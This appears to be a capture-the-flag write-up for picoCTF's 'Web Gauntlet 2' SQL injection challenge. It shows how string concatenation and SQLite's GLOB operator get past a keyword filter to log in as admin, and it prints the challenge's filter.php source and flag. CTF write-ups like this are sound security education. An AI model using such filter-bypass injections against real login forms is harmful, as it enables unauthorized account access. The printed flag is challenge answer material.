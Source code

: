 # Web Gauntlet - 2

link to the chall - [link](https://play.picoctf.org/practice/challenge/174?page=1&search=web)

---


---

Now the part two of the sql challenge.
Here we go.

Given filter is - `filters: or and true false union like = > < ; -- /* */ admin`

---

All of the Hints:
1. `I tried to make it a little bit less contrived since the mini competition.`
2. `Each filter is separated by a space. Spaces are not filtered.`
3. `There is only 1 round this time, when you beat it the flag will be in filter.php.`
4. `There is a length component now.`
5. `sqlite`

---

`SELECT username, password FROM users WHERE username='admi'||'n'' AND password='qwerty'
`

we need to bypass this sql,
![img](22.png)

They injection should be less than 35 chars

for the username we can easily use `adm'||'in` which would directly provide use with `username = 'admin'`
for password something like `' OR '1'='1' --` would have worked but due to filters, we cannot.

on reading a bit about SQL lite, `hint-5`
I found
```txt
SQLite GLOB operator is used to match only text values against a pattern using wildcards. If the search expression can be matched to the pattern expression, the GLOB operator will return true, which is 1. Unlike LIKE operator, GLOB is case sensitive and it follows syntax of UNIX for specifying THE following wildcards.
```

So, I used it.

```SQL
SELECT username, password FROM users WHERE username='admi'||'n' AND password='' GLOB '?'
```

and 
![img](23.png)

from /filter.php

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}
?>
```

---

and the flag - `picoCTF{0n3_m0r3_t1m3_9605a246c21764e7691ca04679ad321a}`